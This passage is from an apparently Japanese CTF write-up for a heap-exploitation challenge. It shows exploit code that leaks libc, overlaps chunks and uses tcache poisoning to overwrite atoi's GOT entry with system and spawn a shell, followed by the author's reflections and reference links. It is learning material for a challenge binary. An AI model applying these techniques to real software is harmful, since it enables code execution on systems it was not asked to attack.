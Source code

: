 ```python
addr = u64(show_quote(0)[8:])
libc_base = addr - libc.symbol("main_arena") - 1664
addr_system = libc_base + libc.symbol('system')
dump("libc base = " + hex(libc_base))

# Overlap
edit_quote(1, '\x00'*0x28 + '\x71')
delete_quote(2)
create_quote(0x68, 'B') # index=2

# Now, quote:2 has quote:3 in it
# Let's do tcache poisoning!
delete_quote(3)
payload = b'A' * 0x20
payload += b'\x00' * 8
payload += p64(0x31)
payload += p64(elf.got('atoi')) # fd
edit_quote(2, payload)
create_quote(0x28, 'XXXXXXXX') # index=3
create_quote(0x28, p64(addr_system))

# Get the shell!
sock.recvuntil("> ")
sock.send("/bin/sh\x00")
sock.interactive()
```

# 感想
この一問でunsorted binやoverlapを知ることができて、めちゃくちゃ勉強になりました。
また一歩Heap Exploitへ足を踏み入れた感じがします。
特に以前習得したtcache poisoningは何もつまることなく利用できたので、pwn力の向上を実感できました。

# 参考文献
[1] [https://zeroload.github.io/ctf/2019/01/28/FireShell-2019-quotes-list/](https://zeroload.github.io/ctf/2019/01/28/FireShell-2019-quotes-list/)

[2] [https://gist.github.com/chmodxxx/98089058fc2a4663085a7642ab3d82fd](https://gist.github.com/chmodxxx/98089058fc2a4663085a7642ab3d82fd)

[3] [http://shimasyaro.hatenablog.com/entry/2017/09/13/161657](http://shimasyaro.hatenablog.com/entry/2017/09/13/161657)